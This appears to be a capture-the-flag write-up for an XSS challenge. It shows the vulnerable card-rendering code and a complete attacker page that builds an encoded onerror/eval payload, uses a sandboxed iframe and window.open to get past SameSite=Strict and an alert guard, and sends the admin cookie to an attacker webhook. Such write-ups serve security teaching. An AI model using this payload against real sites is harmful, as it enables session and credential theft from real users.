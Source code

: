 # Write Up

Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:

'''

    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
'''

- But we can't directly exploit it because there's some restriction here:

'''

    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
        ...snip...
    }
    ...snip...    
    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...
    
'''

Here the step to get xss and steal the flag

1. Create a page that contains the following code:

'''html

    <body></body>
    <script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }
    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
    </script>
'''

2.Serve the page using a web server, make sure the server is accessible from the internet.
3.Send the link to the victim.
4.Wait for the victim to open the link.
5.The flag will be sent to the webhook.

**Read more**
    https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
    https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
    https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion

